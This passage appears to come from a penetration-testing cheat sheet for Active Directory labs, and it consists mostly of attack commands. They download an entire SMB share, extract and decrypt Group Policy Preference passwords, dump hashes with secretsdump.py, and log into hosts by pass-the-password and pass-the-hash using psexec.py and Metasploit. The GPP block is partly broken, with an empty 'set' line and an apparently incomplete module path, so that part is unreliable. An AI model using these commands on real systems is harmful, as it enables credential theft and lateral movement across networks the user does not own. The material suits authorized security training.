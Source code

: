 ### 3. Download all files from an SMB share
```sh
smbclient \\\\<TARGET_IP>\\SHARE -U fcastle
recurse on
prompt off
mget *
```

### 4. Search for GPP cPasswords in NETLOGON/SYSVOL
```sh
sudo service postgresql start && msfconsole
use auxiliary/smb_enum_gpp
set RHOSTS <DC_IP>
set 
gpp-decrypt <PASSWORD>

```

---

## Pass the Password / Pass the Hash
If we have credentials that have local admin privileges on one of the machines, we can dump hashes and secrets available on the compromised machine

### Pass the Password using secretsdump.py
```sh
secretsdump.py test.local\fcastle:Password1@<TARGET_IP>
```
### Pass the Hash using secretsdump.py
```sh
secretsdump.py administrator@<TARGET_IP> --hashes [NTLM-hash]
```
### Pass the Password using Metasploit
```sh
use windows/smb/psexec
set SMBDomain test.local
set SMBUser fcastle
set SMBPass Password1
set RHOSTS <TARGET_IP>
run
```

### PSExec
```sh
# for domain users
psexec.py test.local/fcastle:'Password1'@10.10.10.1

# for local users
psexec.py fcastle:'Password1'@10.10.10.1

#pass the hash for local users
psexec.py Administrator@10.10.10.1 -hashes [NTLM-hash]
```
